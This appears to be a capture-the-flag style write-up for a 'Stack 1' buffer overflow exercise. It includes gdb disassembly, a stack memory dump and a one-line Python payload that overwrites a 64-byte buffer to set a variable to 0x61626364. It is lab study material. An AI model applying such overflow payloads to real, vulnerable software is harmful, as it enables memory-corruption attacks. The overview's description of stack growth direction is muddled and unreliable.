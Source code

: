 # Stack 1
## Overview
    The esp(current stack pointer) grows upward when allocating memory 
    and the higher the esp goes, it points to smaller address number.
    Thus, you need to overwrite all the space of buffer(64 bytes) 
    and then overwrite the allocated space for int modified to 0x61626364.

## Process
    $ gdb -q ./stack1
    (gdb) disas main
        Dump of assembler code for function main:
            0x08048464 <+0>:     push   %ebp
            0x08048465 <+1>:     mov    %esp,%ebp
            0x08048467 <+3>:     and    $0xfffffff0,%esp
            0x0804846a <+6>:     sub    $0x60,%esp
            0x0804846d <+9>:     cmpl   $0x1,0x8(%ebp)
            0x08048471 <+13>:    jne    0x8048487 <main+35>
            0x08048473 <+15>:    movl   $0x80485a0,0x4(%esp)
            0x0804847b <+23>:    movl   $0x1,(%esp)
            0x08048482 <+30>:    call   0x8048388 <errx@plt>
            0x08048487 <+35>:    movl   $0x0,0x5c(%esp)
            0x0804848f <+43>:    mov    0xc(%ebp),%eax
            0x08048492 <+46>:    add    $0x4,%eax
            0x08048495 <+49>:    mov    (%eax),%eax
            0x08048497 <+51>:    mov    %eax,0x4(%esp)
            0x0804849b <+55>:    lea    0x1c(%esp),%eax
            0x0804849f <+59>:    mov    %eax,(%esp)
            0x080484a2 <+62>:    call   0x8048368 <strcpy@plt>
            0x080484a7 <+67>:    mov    0x5c(%esp),%eax
            0x080484ab <+71>:    cmp    $0x61626364,%eax
            0x080484b0 <+76>:    jne    0x80484c0 <main+92>
            0x080484b2 <+78>:    movl   $0x80485bc,(%esp)
            0x080484b9 <+85>:    call   0x8048398 <puts@plt>
            0x080484be <+90>:    jmp    0x80484d5 <main+113>
            0x080484c0 <+92>:    mov    0x5c(%esp),%edx
            0x080484c4 <+96>:    mov    $0x80485f3,%eax
            0x080484c9 <+101>:   mov    %edx,0x4(%esp)
            0x080484cd <+105>:   mov    %eax,(%esp)
            0x080484d0 <+108>:   call   0x8048378 <printf@plt>
            0x080484d5 <+113>:   leave
            0x080484d6 <+114>:   ret
        End of assembler dump.
    (gdb) b *main+71
        Breakpoint 1 at 0x80484ab: file stack1/stack1.c, line 18.
    (gdb) x/60x $esp
        0xffffd500: 0xffffd51c  0xffffd767  0xf7fb8000  0x0000cd57
        0xffffd510: 0xffffffff  0x0000002f  0xf7e12dc8  0x41414141
        0xffffd520: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd530: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd540: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd550: 0x00414141  0x080481e0  0x080484fb  0x00000000
        0xffffd560: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd570: 0x00000002  0xffffd604  0xffffd610  0x00000000
        0xffffd580: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd590: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5a0: 0x00000000  0xe783169f  0xdbe2188f  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0x00000002  0x080483b0
        0xffffd5c0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd5d0: 0x00000002  0x080483b0  0x00000000  0x080483d1
        0xffffd5e0: 0x08048464  0x00000002  0xffffd604  0x080484f0
    
    buffer[64]: from last stack of line 0xffffd510 
            to 3rd stack of line 0xffffd550 
            -> 64 bytes needs to be overwritten
    modified: from last stack of line 0xffffd550



## Method
    Use 64 bytes to overwrite buffer[64] and little endian of 0x61626364
    (/x64/x63/x62/x61) to overwrite modified.

## Answer
    ./stack1 $(python -c "print 'A'*64+'\x64\x63\x62\x61'")
    you have correctly got the variable to the right value
